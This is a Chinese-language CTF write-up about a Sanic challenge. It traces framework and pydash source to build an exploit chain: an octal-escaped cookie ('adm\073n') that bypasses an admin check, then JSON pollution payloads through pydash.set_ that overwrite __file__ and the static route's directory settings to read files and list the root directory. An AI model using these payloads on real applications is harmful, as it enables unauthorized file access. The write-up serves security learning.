

> 题目描述：sanic能有什么问题呢？

提示敏感目录`/admin`、`/src`，直接去`src`路由得到源码：

```python "pydash==5.1.2"
from sanic import Sanic
from sanic.response import text, html
from sanic_session import Session
import pydash
# pydash==5.1.2

class Pollute:
    def __init__(self):
        pass

app = Sanic(__name__)
app.static("/static/", "./static/")
Session(app)

@app.route('/', methods=['GET', 'POST'])
async def index(request):
    return html(open('static/index.html').read())

@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")

    return text("login fail")

@app.route("/src")
async def src(request):
    return text(open(__file__).read())

@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")
    return text("forbidden")

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

服务器使用的是`sanic`框架，`pydash.set_`能触发`原型链污染`

### 分号解析

我们看到源码有一个`login`：
```python {4}
@app.route("/login")
async def login(request: Request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")

    return text("login fail")
```

这里校验`cookie`的`user`字段是否为`adm;n`，但`;`理应是分隔符，所以我们跟进查看源码对`;`的处理方式(24.12.0版本)，这里我加上了类型注解，方便跳转。

跟进这个`cookies`，(get方法内没有什么东西)：

```python title=sanic>request>types.py showLineNumbers startLineNumber=812 {3,16} "self.get_cookies()"
    def get_cookies(self) -> RequestParameters:
        cookie = self.headers.getone("cookie", "")
        self.parsed_cookies = CookieRequestParameters(parse_cookie(cookie))
        return self.parsed_cookies

    @property
    def cookies(self) -> RequestParameters:
        """Incoming cookies on the request

        Returns:
            RequestParameters: Incoming cookies on the request
        """

        if self.parsed_cookies is None:
            self.get_cookies()
        return cast(CookieRequestParameters, self.parsed_cookies)
```

这里初始化`parsed_cookies`时调用的是`get_cookies()`方法，里面解析cookie使用了`parse_cookie`，我们去看看怎么个事：

```python title=sanic>cookies>request.py showLineNumbers startLineNumber=50 {42}
def parse_cookie(raw: str) -> dict[str, list[str]]:
    """Parses a raw cookie string into a dictionary.

    The function takes a raw cookie string (usually from HTTP headers) and
    returns a dictionary where each key is a cookie name and the value is a
    list of values for that cookie. The function handles quoted values and
    skips invalid cookie names.

    Args:
        raw (str): The raw cookie string to be parsed.

    Returns:
        Dict[str, List[str]]: A dictionary containing the cookie names as keys
        and a list of values for each cookie.

    Example:
        ```python
        raw = 'name1=value1; name2="value2"; name3=value3'
        cookies = parse_cookie(raw)
        # cookies will be {'name1': ['value1'], 'name2': ['value2'], 'name3': ['value3']}
        ```
    """  # noqa: E501
    cookies: dict[str, list[str]] = {}

    for token in raw.split(";"):
        name, sep, value = token.partition("=")
        name = name.strip()
        value = value.strip()

        # Support cookies =value or plain value with no name
        # https://github.com/httpwg/http-extensions/issues/159
        if not sep:
            if not name:
                # Empty value like ;; or a cookie header with no value
                continue
            name, value = "", name

        if COOKIE_NAME_RESERVED_CHARS.search(name):  # no cov
            continue

        if len(value) > 2 and value[0] == '"' and value[-1] == '"':  # no cov
            value = _unquote(value)

        if name in cookies:
            cookies[name].append(value)
        else:
            cookies[name] = [value]

    return cookies
```

看到第90行的关键代码，当cookie内某个字段的值长度大于2且被双引号包裹时会被送去`_unquote()`，我们跟进这个函数：

```python title=sanic>cookies>request.py showLineNumbers startLineNumber=16
def _unquote(str):  # no cov
    if str is None or len(str) < 2:
        return str
    if str[0] != '"' or str[-1] != '"':
        return str

    str = str[1:-1]

    i = 0
    n = len(str)
    res = []
    while 0 <= i < n:
        o_match = OCTAL_PATTERN.search(str, i)
        q_match = QUOTE_PATTERN.search(str, i)
        if not o_match and not q_match:
            res.append(str[i:])
            break
        # else:
        j = k = -1
        if o_match:
            j = o_match.start(0)
        if q_match:
            k = q_match.start(0)
        if q_match and (not o_match or k < j):
            res.append(str[i:k])
            res.append(str[k + 1])
            i = k + 2
        else:
            res.append(str[i:j])
            res.append(chr(int(str[j + 1 : j + 4], 8)))  # noqa: E203
            i = j + 4
    return "".join(res)
```

看到这里我们的解法就清清晰了，这段代码会处理字符串中的引号转义和8进制字符转义，即我们编码`;`为6进制数即可绕过分割被成功解析：

```python
>>> ''.join(f'\\{ord(c):03o}' for c in ";")
'\\073'
```

传入`Cookie: user="adm\073n"`即可。

### 原型链污染

接下里就可以到`admin`路由开始原型链污染，目标是污染`__file__`使src路由直接读出flag

```python {6}
@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")
```

提示`pydash`的版本为5.1.2，这个版本污染全局变量没有key的限制，我们可以直接用`__class__.__init__.__globals__.__file__`的链子，但是这里waf掉了`_.`，用中括号取索引也没法绕过，所以我们还是翻源码看看pydash对输入是否有特殊的解析供我们绕过，我们跟踪到`utilities.py`：

```python title=pydash>utilities.py showLineNumbers startLineNumber=64
RE_PATH_KEY_DELIM = re.compile(r"(?<!\\)(?:\\\\)*\.|(\[\d+\])")
```
```python title=pydash>utilities.py showLineNumbers startLineNumber=1262 {11}
def to_path_tokens(value):
    """Parse `value` into :class:`PathToken` objects."""
    if pyd.is_string(value) and ("." in value or "[" in value):
        # Since we can't tell whether a bare number is supposed to be dict key or a list index, we
        # support a special syntax where any string-integer surrounded by brackets is treated as a
        # list index and converted to an integer.
        keys = [
            PathToken(int(key[1:-1]), default_factory=list)
            if RE_PATH_LIST_INDEX.match(key)
            else PathToken(unescape_path_key(key), default_factory=dict)
            for key in filter(None, RE_PATH_KEY_DELIM.split(value))
        ]
    elif pyd.is_string(value) or pyd.is_number(value):
        keys = [PathToken(value, default_factory=dict)]
    elif value is UNSET:
        keys = []
    else:
        keys = value

    return keys
```

可以看到这里定义了一个`re.compile()`模式对象，使用`filter()`生成器匹配，注意到`\\\\`连用四个反斜杠也会被匹配，我们写个脚本试一下：

```python
>>> import re
>>> RE_PATH_KEY_DELIM = re.compile(r"(?<!\\)(?:\\\\)*\.|(\[\d+\])")
>>> value = "__class__\\\\.__init__\\\\.__globals__\\\\.__file__"
>>> list(filter(None, RE_PATH_KEY_DELIM.split(value)))
['__class__', '__init__', '__globals__', '__file__']
```

果然如我们预期的，四个反斜杠能被正常分割，于是我们就可以这样污染`__file__`实现任意文件读取了，但是我们搜寻了一番却找不到flag文件，`passwd`和`shadow`也没有什么信息，看来还是需要想办法遍历目录

### 污染static

在一番苦苦搜索后，我们发现`static`方法有切入点，看到它的文档：

> file_or_directory (Union\[PathLike, str]): Path to the static file or directory with static files.
> 
> directory_view (bool, optional): Whether to fallback to showing the directory viewer when exposing a director Defaults to `False`.

即参数`directory_view: bool`允许我们在访问静态目录时直接显示目录内容列表，而`file_or_directory: Union[PathLike, str]`用来定义能够访问的根目录，所以我们接下来的目标就是污染这两个变量。

我们看看Sanic的源码是怎么处理这个`static`的：

```python title=sanic>app.py showLineNumbers startLineNumber=110 "StaticHandleMixin" "BaseSanic"
class Sanic(
    Generic[config_type, ctx_type],
    StaticHandleMixin,
    BaseSanic,
    StartupMixin,
    CommandMixin,
    metaclass=TouchUpMeta,
):
```

我们的app类继承于`StaticHandleMixin`类和`BaseSanic`类，

```python title=sanic>root.py showLineNumbers startLineNumber=19 "StaticMixin"
class BaseSanic(
    RouteMixin,
    StaticMixin,
    MiddlewareMixin,
    ListenerMixin,
    ExceptionMixin,
    SignalMixin,
    CommandMixin,
    metaclass=SanicMeta,
):
```

`BaseSanic`类又继承于`StaticMixin`这个混入类，最后也是在这个类里定义了`static`方法，

```python title=sanic>mixins>static.py>StaticMixin showLineNumbers startLineNumber=25 "directory_handler"
class StaticMixin(BaseMixin, metaclass=SanicMeta):
    def __init__(self, *args, **kwargs) -> None:
        self._future_statics: set[FutureStatic] = set()

    def _apply_static(self, static: FutureStatic) -> Route:
        raise NotImplementedError  # noqa

    def static(
        self,
        uri: str,
        file_or_directory: Union[PathLike, str],
        pattern: str = r"/?.+",
        use_modified_since: bool = True,
        use_content_range: bool = False,
        stream_large_files: Union[bool, int] = False,
        name: str = "static",
        host: Optional[str] = None,
        strict_slashes: Optional[bool] = None,
        content_type: Optional[str] = None,
        apply: bool = True,
        resource_type: Optional[str] = None,
        index: Optional[Union[str, Sequence[str]]] = None,
        directory_view: bool = False,
        directory_handler: Optional[DirectoryHandler] = None,
    ):
```
```python title=sanic>mixins>static.py>StaticMixin showLineNumbers startLineNumber=116
        name = self.generate_name(name)
```

注意这里第116行对name的赋值，这个参数后面还会用到，我们进去看看：

```python title=sanic>mixins>base.py showLineNumbers startLineNumber=20 {18-19}
    def _generate_name(
        self, *objects: Union[NameProtocol, DunderNameProtocol, str]
    ) -> str:
        name: Optional[str] = None
        for obj in objects:
            if not obj:
                continue
            if isinstance(obj, str):
                name = obj
            else:
                name = getattr(obj, "name", getattr(obj, "__name__", None))

            if name:
                break
        if not name or not isinstance(name, str):
            raise ValueError("Could not generate a name for handler")

        if not name.startswith(f"{self.name}."):
            name = f"{self.name}.{name}"

        return name

    def generate_name(self, *objects) -> str:
        return self._generate_name(*objects)
```

简单来说就是给name加上类名的前缀这个前缀一般就是`__mp_main__`,找他的过程比较长，我们可以直接输出看看，这里我一笔带过了，也是爬它的继承链最后找到`Sanic`类:
```python
app.run(single_process=False) # startup.py::StartupMixin::run()
-> startup.py::StartupMixin::serve()
-> serve.py::worker_serve()
-> Sanic::get_app()
```

我们继续来看这个方法：

```python title=sanic>mixins>static.py>StaticMixin showLineNumbers startLineNumber=126 {2,39-40} "directory_handler"
        try:
            file_or_directory = Path(file_or_directory).resolve()
        except TypeError:
            raise TypeError(
                "Static file or directory must be a path-like object or string"
            )

        if directory_handler and (directory_view or index):
            raise ValueError(
                "When explicitly setting directory_handler, you cannot "
                "set either directory_view or index. Instead, pass "
                "these arguments to your DirectoryHandler instance."
            )

        if not directory_handler:
            directory_handler = DirectoryHandler(
                uri=uri,
                directory=file_or_directory,
                directory_view=directory_view,
                index=index,
            )

        static = FutureStatic(
            uri,
            file_or_directory,
            pattern,
            use_modified_since,
            use_content_range,
            stream_large_files,
            name,
            host,
            strict_slashes,
            content_type,
            resource_type,
            directory_handler,
        )
        self._future_statics.add(static)

        if apply:
            self._apply_static(static)
```
`directory_handler`的默认参数为`None`，所以这些参数都会被初始化进这个类，这个类的源码实际上没有任何东西，单纯只是这些参数的容器。

可以看到这时`file_or_directory`已经转为了`Path`对象，这点后面比较重要。

我们再来看这个`self._apply_static(static)`，很明显这就是应用这个`static`的方法，但我们直接跳转会进到`StaticMixin`类的`_apply_static`方法，但这个方法也没有写任何内容，只是直接引出了一个`代码没写完报错`（看前面引用的代码），还记得我之前提到Sanic类继承了`StaticHandleMixin`混入类吗，实际上正是它的`_apply_static`方法覆盖了这里的方法，我们跳进来看：

```python title=sanic>mixins>static.py>StaticHandleMixin showLineNumbers startLineNumber=168 "static"
class StaticHandleMixin(metaclass=SanicMeta):
    def _apply_static(self, static: FutureStatic) -> Route:
        return self._register_static(static)

    def _register_static(
        self,
        static: FutureStatic,
    ):
```

这里就是注册路由的部分了，我们直接看到最后的返回：

```python title=sanic>mixins>static.py>StaticHandleMixin showLineNumbers startLineNumber=226 {4,9}
        _handler = wraps(self._static_request_handler)(
            partial(
                self._static_request_handler,
                file_or_directory=str(file_or_directory),
                use_modified_since=static.use_modified_since,
                use_content_range=static.use_content_range,
                stream_large_files=static.stream_large_files,
                content_type=static.content_type,
                directory_handler=static.directory_handler,
            )
        )

        route, _ = self.route(  # type: ignore
            uri=uri,
            methods=["GET", "HEAD"],
            name=name,
            host=static.host,
            strict_slashes=static.strict_slashes,
            static=True,
        )(_handler)

        return route
```

这里用了`wraps`和`partial`来加工`_static_request_handler`方法，（这样写确实有点费解）~~自己写嘎嘎开心，别人写就喊是屎，python还是太权威了~~，通过`route`装饰器注册路由，注意这个类直接被app继承，所以`self.route`就相当于是`app.route`。

注意一下这里的`file_or_directory`是字符串，之前的`Path`对象在`directory_handler`内，那个才是我们后面要用到的，我们可以看下面的路由函数`_static_request_handler`呈现页面的方法：

```python title=sanic>mixins>static.py>StaticHandleMixin showLineNumbers startLineNumber=333 "directory_handler"
        except (IsADirectoryError, PermissionError):
            return await directory_handler.handle(request, request.path)
```

当引发了`IsADirectoryError`目录报错时，就使用`handle`方法，我们跟进去看

```python title=sanic>handlers>directory.py>DirectoryHandler showLineNumbers startLineNumber=43 "directory"
    async def handle(self, request: Request, path: str):
        """Handle the request.

        Args:
            request (Request): The incoming request object.
            path (str): The path to the file to serve.

        Raises:
            NotFound: If the file is not found.
            IsADirectoryError: If the path is a directory and directory_view is False.

        Returns:
            Response: The response object.
        """  # noqa: E501
        current = path.strip("/")[len(self.base) :].strip("/")  # noqa: E203
        for file_name in self.index:
            index_file = self.directory / current / file_name
            if index_file.is_file():
                return await file(index_file)

        if self.directory_view:
            return self._index(
                self.directory / current, path, request.app.debug
            )
```

这些代码只是在应用启动时完成了注册，具体要污染的目标我们还是得去看看route保存的路由处理器（随便叫的），我们也是跟着来到route的源码：

```python title=sanic>mixins>route.py showLineNumbers startLineNumber=160
            route = FutureRoute(
                handler,
                uri,
                None if websocket else frozenset([x.upper() for x in methods]),
                host,
                strict_slashes,
                stream,
                version,
                name,
                ignore_body,
                websocket,
                subprotocols,
                unquote,
                static,
                version_prefix,
                error_format,
                route_context,
            )
```
```python title=sanic>mixins>route.py showLineNumbers startLineNumber=201
            if not websocket and stream:
                handler.is_stream = stream

            if apply:
                self._apply_route(route, overwrite=overwrite)

            if static:
                return route, handler
            return handler

        return decorator
```

这里我们看到了`_apply_route`方法应该比较重要，`static`参数也是之前传入进来的True。这个`_apply_route`方法和之前的`_apply_static`方法一样，也是留空的，真正的实现在`Sanic`的源码里：

```python title=sanic>app.py showLineNumbers startLineNumber=588 "params"
    def _apply_route(
        self, route: FutureRoute, overwrite: bool = False
    ) -> list[Route]:
        params = route._asdict()
        params["overwrite"] = overwrite
        websocket = params.pop("websocket", False)
        subprotocols = params.pop("subprotocols", None)

        if websocket:
            self.enable_websocket()
            websocket_handler = partial(
                self._websocket_handler,
                route.handler,
                subprotocols=subprotocols,
            )
            websocket_handler.__name__ = route.handler.__name__  # type: ignore
            websocket_handler.is_websocket = True  # type: ignore
            params["handler"] = websocket_handler

        ctx = params.pop("route_context")

        with self.amend():
            routes = self.router.add(**params)
            if isinstance(routes, Route):
                routes = [routes]

            for r in routes:
                r.extra.websocket = websocket
                r.extra.static = params.get("static", False)
                r.ctx.__dict__.update(ctx)

        return routes
```

看到这里应用了一个上下文管理器，来看一眼，看到这个方法文档都快感动哭了，它允许我们在应用启动后改变路由的行为，这下更确定这条路走对了。

```python title=sanic>app.py showLineNumbers startLineNumber=2250
    @contextmanager
    def amend(self) -> Iterator[None]:
        """Context manager to allow changes to the app after it has started.

        Typically, once an application has started and is running, you cannot
        make certain changes, like adding routes, middleware, or signals. This
        context manager allows you to make those changes, and then finalizes
        the app again when the context manager exits.

        Yields:
            None

        Example:
            ```python
            with app.amend():
                app.add_route(handler, '/new_route')
            ```
        """
```

我们已经知道路由的信息大概就存在`self.router`中了，注意这里的`**params`，他是将`route._asdict()`产生的字典的键值对传参进去，这些参数与add方法接收的参数都是匹配的，我们最后去看一眼这个`add`方法，这是`Router`类的方法，这个类又继承了`BaseRouter`类，`Router`类的`add`方法是重写了其父类的`add`方法，我们先去看看他自己重写后的实现：

```python title=sanic>router.py showLineNumbers startLineNumber=78
    def add(  # type: ignore
        self,
        uri: str,
        methods: Iterable[str],
        handler: RouteHandler,
        host: Optional[Union[str, Iterable[str]]] = None,
        strict_slashes: bool = False,
        stream: bool = False,
        ignore_body: bool = False,
        version: Optional[Union[str, float, int]] = None,
        name: Optional[str] = None,
        unquote: bool = False,
        static: bool = False,
        version_prefix: str = "/v",
        overwrite: bool = False,
        error_format: Optional[str] = None,
    ) -> Union[Route, list[Route]]:
```
```python title=sanic>router.py showLineNumbers startLineNumber=120 "params"
        params = dict(
            path=uri,
            handler=handler,
            methods=frozenset(map(str, methods)) if methods else None,
            name=name,
            strict=strict_slashes,
            unquote=unquote,
            overwrite=overwrite,
        )
```
```python title=sanic>router.py showLineNumbers startLineNumber=149 "params"
            route = super().add(**params)  # type: ignore
```

然后再去看父类`BaseRouter`的实现：

```python title=sanic_routing>router.py showLineNumbers startLineNumber=149 "route"
    def add(
        self,
        path: str,
        handler: t.Callable,
        methods: t.Optional[
            t.Union[t.Sequence[str], t.FrozenSet[str], str]
        ] = None,
        name: t.Optional[str] = None,
        requirements: t.Optional[t.Dict[str, t.Any]] = None,
        strict: bool = False,
        unquote: bool = False,  # noqa
        overwrite: bool = False,
        append: bool = False,
        *,
        priority: int = 0,
    ) -> Route:
```
```python title=sanic_routing>router.py showLineNumbers startLineNumber=223 "route"
        route = self.route_class(
            self,
            path,
            name or "",
            handler=handler,
            methods=methods,
            requirements=requirements,
            strict=strict,
            unquote=unquote,
            static=static,
            regex=regex,
            priority=priority,
        )
```
```python title=sanic_routing>router.py showLineNumbers startLineNumber=256 "route"
        if name:
            self.name_index[name] = route
```

这就很明了了，我们的路由信息会被层层打包直到赋值给`name_index`的键值，层层回溯，所以我们要污染的信息即在`app.router.name_index["__mp_main__.static"]`；回溯回去，

`directory_view`就在：
```python
app.router.name_index['__mp_main__.static'].handler.keywords['directory_handler'].directory_view
```

因为`file_or_directory`是个调用了`resolve()`方法的`Path`类，其中的路径被分割存在一个元组里：
```python
app.router.name_index['__mp_main__.static'].handler.keywords['directory_handler'].directory.parts
```

污染这两个变量，就能实现遍历根目录，这道题就算做完了：

```json
{
"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view",
"value":"True"
}
```
```json
{
"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts",
"value":["/"]
}
```

### 结语
这道题的复现打了我好久，一个一个去查这些源码确实太浪费时间了，特别是最后查找`static`的那两个变量，简单点可以直接打断点然后硬搜出来变量的路径，不过最后算是搞懂了绝大部分细节也学到了不少新知识，算是有点收获了，最后附上一图流，防止以后我搞忘了又懒得看自己又臭又长的文章。

### 一图流
> 画的有点烂
